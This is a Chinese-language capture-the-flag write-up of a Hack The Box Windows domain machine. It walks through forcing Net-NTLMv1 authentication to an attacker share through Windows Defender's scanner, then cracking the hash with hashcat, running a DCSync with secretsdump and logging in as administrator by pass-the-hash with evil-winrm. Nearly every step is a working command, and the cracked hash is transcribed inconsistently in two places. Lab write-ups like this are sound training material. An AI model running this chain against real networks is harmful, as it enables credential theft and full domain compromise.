在启动Responder之前，需要编辑`/etc/responder/Responder.conf`将质询设置为`1122334455667788`，这是`crack.sh`在其彩虹表所使用的，接着启动responder，并用`--lm`强制降级为Net-NTLMv1。

接着我利用`Windows Defender`的命令行工具进行扫描：

```
.\MpCmdRun.exe -Scan -ScanType 3 -File \10.10.16.15\Share\hacker
```

* `-ScanType 1`：快速扫描。
* `-ScanType 2`：完全扫描。
* `-ScanType 3`：自定义扫描，需指定路径。



另一边已经接收到了Net-NTLM v1哈希，这是个机器账户的NTLM v1哈希。



```
APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
```

## 破解NTLMv1哈希

NTLM v1 Hash是非常不安全的，可以被彩虹表破解。

[https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi.git)

首先用`ntlmv1.py`脚本对哈希进行分析。

```
python ntlmv1.py --ntlmv1 "APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788"
```



利用`crack.sh`进行彩虹表破解，将NT Hash破解为NTLM Hash，但是这个站在维护，无法使用。

```
NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
```

破解出来的结果应该如下所示。

```
d167c323886b12f5f82feae86a7f798
```

这儿我们考虑无法使用`crack.sh`这个站该怎么破解NTLM v1哈希。

首先我们利用`ct3_to_ntlm.bin`计算NTLM v1质询中HTLM Hash的最后4个字符。

```
/usr/lib/hashcat-utils/ct3_to_ntlm.bin 30A49B5BB858D384 1122334455667788
```



接着我们需要制作一份哈希字典。

```
95ACA8C7248774CB:1122334455667788
427E1AE5B8D5CE68:1122334455667788
```

接着继续进行破解，这儿卡住了，似乎一直计算不出来DES密钥，应该是需要很长时间。

```
hashcat -m 14000 -a 3 -1 DES_full.charset --hex-charset hash.txt ?1?1?1?1?1?1?1?1
```



我们还有另一种爆破方式，利用hashcat进行明文爆破：爆破结果依托于密码字典。

```
hashcat -a 0 -m 5500 hash /usr/share/wordlists/rockyou.txt
```



显而易见，`rockyou.txt`中没有包含上面题目中抓取到的NTLM v1 Hash对应的明文密码。

其实主要原因是机器用户的密码随机性太强，无法被爆破。



我们继续扩展，怎么爆破NTLM Hash呢，在昨天的比赛中竟然没想到？

其实和上面直接爆破而不是计算的原理是相同的。

```
hashcat -a 0 -m 1000 hash /usr/share/wordlists/rockyou.txt
```



## Dcsync读取

拥有机器用户的哈希，虽然不能登录，但是可以利用Dcsync来读取域内哈希。

```
python /tools/impacket/examples/secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
```



## 哈希传递

接着直接哈希传递用管理员连接即可。

```
evil-winrm -i htb.local -u administrator -H c370bddf384a691d811ff3495e8a72e2
```


